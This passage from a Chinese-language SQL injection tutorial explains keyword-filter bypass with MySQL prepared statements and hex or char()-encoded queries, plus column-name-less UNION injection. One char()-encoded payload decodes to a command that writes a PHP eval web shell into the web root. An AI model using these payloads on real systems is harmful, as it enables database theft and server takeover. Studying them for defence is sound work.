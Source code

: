 ```python
| security           |
| test               |
+--------------------+
6 rows in set (0.02 sec)
```

即payload类似如下：

```python
1';sEt @a=0x73686F7720646174616261736573;PRepare hello from @a;execute hello;#
```

### MySql预处理配合字符串拼接绕过关键字

原理就是借助char()函数将ascii码转化为字符然后再使用concat()函数将字符连接起来，有了前面的基础这里应该很好理解了：

```python
set @sql=concat(char(115),char(101),char(108),char(101),char(99),char(116),char(32),char(39),char(60),char(63),char(112),char(104),char(112),char(32),char(101),char(118),char(97),char(108),char(40),char(36),char(95),char(80),char(79),char(83),char(84),char(91),char(119),char(104),char(111),char(97),char(109),char(105),char(93),char(41),char(59),char(63),char(62),char(39),char(32),char(105),char(110),char(116),char(111),char(32),char(111),char(117),char(116),char(102),char(105),char(108),char(101),char(32),char(39),char(47),char(118),char(97),char(114),char(47),char(119),char(119),char(119),char(47),char(104),char(116),char(109),char(108),char(47),char(102),char(97),char(118),char(105),char(99),char(111),char(110),char(47),char(115),char(104),char(101),char(108),char(108),char(46),char(112),char(104),char(112),char(39),char(59));prepare s1 from @sql;execute s1;
```

也可以不用concat函数，直接用char函数也具有连接功能：

```python
set @sql=char(115,101,108,101,99,116,32,39,60,63,112,104,112,32,101,118,97,108,40,36,95,80,79,83,84,91,119,104,111,97,109,105,93,41,59,63,62,39,32,105,110,116,111,32,111,117,116,102,105,108,101,32,39,47,118,97,114,47,119,119,119,47,104,116,109,108,47,102,97,118,105,99,111,110,47,115,104,101,108,108,46,112,104,112,39,59);prepare s1 from @sql;execute s1;
```

## 无列名注入

我们可以利用一些查询上的技巧来进行无列名、表名的注入。

在我们直接select 1,2时，会创建一个虚拟的表

![](https://cdn.nlark.com/yuque/0/2023/png/25519932/1702364336156-38083775-557a-42b4-8a78-f76efd40cf43.png#id=GAkC6&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

如图所见列名会被定义为1，2

当我们结合了union联合查询之后

![](https://cdn.nlark.com/yuque/0/2023/png/25519932/1702364336274-c8974182-985b-4b96-affb-627806d0edb4.png#id=gU8Cc&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

如图，我们的列名被替换为了对应的数字。也就是说，我们可以继续数字来对应列，如 2 对应了表里面的 password，进而我们就可以构造这样的查询语句来查询password：

```python
SELECT `2` FROM (SELECT 1,2 UNION SELECT * FROM USER)a;
```
